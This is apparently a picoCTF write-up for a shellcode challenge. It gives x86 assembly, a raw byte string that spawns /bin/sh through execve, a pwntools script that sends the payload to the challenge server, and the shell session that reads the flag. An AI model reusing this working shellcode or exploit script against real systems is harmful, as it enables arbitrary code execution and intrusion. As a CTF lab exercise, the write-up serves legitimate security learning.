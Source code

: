 ```
xor    %eax,%eax
inc    %eax
nop
int    0x80
```

ran this in [online assembler](https://defuse.ca/online-x86-assembler.htm)

`\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80`

we got the payload. now we load the payload. I used pwntools on python and ran it

```python
from pwn import remote

r = remote("mercury.picoctf.net", 35338)

print(r.recvline())
payload = b'\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80'
r.sendline(payload)
r.interactive()
```

and after running this code, this thing became bandit level 0 💀
```
└─$ python3 thistooktoolong.py
[+] Opening connection to mercury.picoctf.net on port 35338: Done
b'Give me code to run:\n'
[*] Switching to interactive mode
$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{th4t_w4s_fun_bf8b48641b742e27}
```

btw some bonus stuff. we have fun.c so we can see the original c code. where we can see that it converts a string pointer to a function pointer. so turning a string to function is dangerous and should be done when knowing what's happening. (lesson learnt 👍)
